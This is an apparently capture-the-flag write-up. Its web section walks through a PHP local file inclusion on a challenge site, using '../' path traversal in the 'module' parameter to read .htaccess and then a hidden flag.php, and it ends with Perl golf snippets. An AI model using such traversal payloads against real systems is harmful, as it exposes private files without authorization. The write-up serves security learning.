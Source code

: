 [TOC]

# Overview

# Web
## Module loader
Since his students never know what date it is and how much time they have until the next homework's deadline, Mr P. H. Porter wrote a little webapp for that.
You can find it [here](http://school.fluxfingers.net:1522/).

We see `https://school.fluxfingers.net:1522/?module=date`

Try [Local File Inclusion](https://websec.wordpress.com/2010/02/22/exploiting-php-file-inclusion-overview/) in PHP, we have `https://school.fluxfingers.net:1522/?module=../.htaccess` and view source we see something interesting

	# needs to be hidden from direct access <!--
	# seems to be not working, though
	#<Directory "3cdcf3c63dc02f8e5c230943d9f1f4d75a4d88ae">
	#    Options -Indexes
	#</Directory>
	# -->

Now we use LFI again with this link: `https://school.fluxfingers.net:1522/?module=../3cdcf3c63dc02f8e5c230943d9f1f4d75a4d88ae/flag.php`

Flag: `flag{hidden_is_not_actually_hidden}`

# Coding
## Perl Golf
$s=@ARGV[0];print $s=~s/(.)(.)/$1.uc$2/egr;
print@ARGV[0]=~s/(.)(.)/uc($1).$2/egr

## PHP Golf


